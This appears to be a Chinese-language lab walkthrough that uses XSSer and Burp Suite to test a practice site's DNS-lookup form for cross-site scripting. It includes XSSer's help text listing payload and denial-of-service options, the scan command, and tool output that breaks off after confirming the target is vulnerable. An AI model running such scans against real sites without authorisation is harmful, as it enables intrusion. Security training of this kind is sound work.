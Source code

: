 ```
    vulnerable target(s). Important if you want to exploit 'on-the-wild'
    the vulnerabilities found. Choose only one option:

    --Fp=FINALPAYLOAD   OWN    - Exploit your own code
    --Fr=FINALREMOTE    REMOTE - Exploit a script -remotely-

  *Special Final injection(s)*:
    These options can be used to execute some 'special' injection(s) on
    vulnerable target(s). You can select multiple and combine them with
    your final code (except with DCP exploits):

    --Anchor            ANC  - Use 'Anchor Stealth' payloader (DOM shadows!)
    --B64               B64  - Base64 code encoding in META tag (rfc2397)
    --Onm               ONM  - Use onMouseMove() event
    --Ifr               IFR  - Use <iframe> source tag
    --Dos               DOS  - XSS (client) Denial of Service
    --Doss              DOSs - XSS (server) Denial of Service

  *Reporting*:
    --save              Export to file (XSSreport.raw)
    --xml=FILEXML       Export to XML (--xml file.xml)

  *Miscellaneous*:
    --silent            Inhibit console output results
    --alive=ISALIVE     Set limit of errors before check if target is alive
    --update            Check for latest stable version

```

第 9 步：配置 Firefox 以使用 Burp Suite 代理。

第 10 步：启动 Burp Suite！

在警告对话框中按确定按钮。

创建一个临时项目。

对于本实验，我们可以使用 Burp 的默认配置

注意：如果您收到“Burp Suite 已过期”消息。忽略此并单击“确定”按钮继续。

第 11 步：在Hostname/IP文本字段中输入“HelloWorld”，然后单击Lookup DNS。请求会被 burp suite 拦截

第 12 步：将 URL 传递给 XSSer!。将“HelloWorld”替换为“XSS”，这样做是为了让 XSSer 可以用有效负载替换“XSS”字符串。

命令

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

输出确认目标易受攻击。

```
root@INE:~# xsser --url "http://demo.ine.local/index.php?page=dns-lookup.php" -p "target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS"
===========================================================================

XSSer v1.8[4]: "The HiV€!" - (https://xsser.03c8.net) - 2010/2021 -> by psy

===========================================================================
Testing [XSS from URL]...
===========================================================================
===========================================================================
[*] Test: [ 1/1 ] <-> 2022-06-30 19:03:06.288380
===========================================================================

[+] Target: 
```